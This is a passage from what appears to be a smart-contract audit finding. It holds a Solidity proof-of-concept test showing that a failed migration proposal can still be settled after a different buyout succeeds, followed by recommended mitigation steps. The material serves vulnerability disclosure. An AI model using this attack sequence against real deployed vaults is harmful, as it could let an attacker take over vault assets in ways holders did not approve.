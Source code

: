     	// Bob makes the proposal
    	bob.migrationModule.propose(
    		vault,
    		newModules,
    		nftReceiverPlugins,
    		nftReceiverSelectors,
    		TOTAL_SUPPLY * 2,
    		1 ether
    	);
    	// Bob joins the proposal with 4000 fractions
    	bob.migrationModule.join{value: 1 ether}(vault, 1, 4000);

    	// since the target price is reached, bob starts the buyout
    	bob.migrationModule.commit(vault, 1);

    	vm.warp(rejectionPeriod + 1);

    	// after buyout fails, bob ends it
    	// note: bob's proposal is still commited even though it has failed
    	bob.buyoutModule.end(vault, burnProof);
    	bob.migrationModule.withdrawContribution(vault, 1);

    	// Alice makes a different proposal (we use bob's data for simplicity)
    	alice.migrationModule.propose(
    		vault,
    		newModules,
    		nftReceiverPlugins,
    		nftReceiverSelectors,
    		TOTAL_SUPPLY * 10,
    		1 ether
    	);

    	// Alice joins the proposal with 6000 fractions
    	alice.migrationModule.join{value: 1 ether}(vault, 2, 6000);

    	// since the target price is reached, alice starts the buyout
    	alice.migrationModule.commit(vault, 2);

    	vm.warp(proposalPeriod * 10);

    	// after buyout succeeds (as it has >50% of fractions), alice ends it
    	// note: both bob's and alice's proposals are commited at this point
    	alice.buyoutModule.end(vault, burnProof);

    	// Now bob (whose buyout has failed) settles his proposal
    	// It should revert, but it succeeds
    	vm.expectRevert(
    		abi.encodeWithSelector(IMigration.UnsuccessfulMigration.selector)
    	);
    	bob.migrationModule.settleVault(vault, 2);
    }

### Recommended Mitigation Steps

Add a new storage variable for currently active proposal id. Allow calling `settleVault` only for active proposal id (and also only if buyout's proposer equals `Migration` address, otherwise there can be a different successful buyout not connected to the active proposal). Also add appropriate checks with active proposal in the other functions as well (don't allow to commit if there is an active proposal etc).
